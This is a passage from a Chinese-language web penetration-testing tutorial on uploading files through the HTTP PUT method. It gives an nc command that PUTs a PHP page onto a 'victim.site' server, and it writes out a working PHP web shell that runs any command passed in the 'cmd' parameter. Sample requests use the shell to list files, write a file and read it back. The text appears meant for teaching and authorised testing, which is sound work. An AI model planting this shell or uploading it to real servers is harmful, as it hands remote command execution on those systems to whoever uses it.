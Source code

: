 然后，您可以使用获得的大小来构建 PUT 消息。在以下示例中，您将了解如何上传显示有关服务器上 PHP 安装信息的页面。

```
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

### Uploading a PHP Shell with PUT
让我们看看如何编写一个 shell 并通过 **PUT** 将其上传到受害者服务器。
首先，我们来分析一下shell代码。

以下代码包含一个小而有效的 PHP shell。

```php
<?php
if (isset($_GET['cmd'])) # Runs the following code only if the GET cmd parameter is set. 仅当设置了 GET cmd 参数时才运行以下代码。
{
    $cmd = $_GET['cmd']; # Reads the command to execute. 读取要执行的命令。
    echo '<pre>';
    $result = shell_exec($cmd); # Runs the command by using the OS shell. 使用 OS shell 运行命令。
    echo $result; # Displays the output of the command. 显示命令的输出。
    echo '</pre>';
}
?>
```

您可以通过 cmd GET 参数传递您的命令来使用它。
在下面的示例中，我们通过要求 shell 执行 `ls` 命令来列出当前目录的内容。

```
victim.site/shell.php?cmd=ls

admin
css
data
index.html
js
login.php
shell.php
```

shell 与运行它的 web 服务器具有相同的权限。例如，我们可以写一个文件。

```
victim.site/shell.php?cmd=echo 'test string' > /tmp/testfile
```

我们也可以读取它。

```
victim.site/shell.php?cmd=cat /tmp/testfile

test string
```
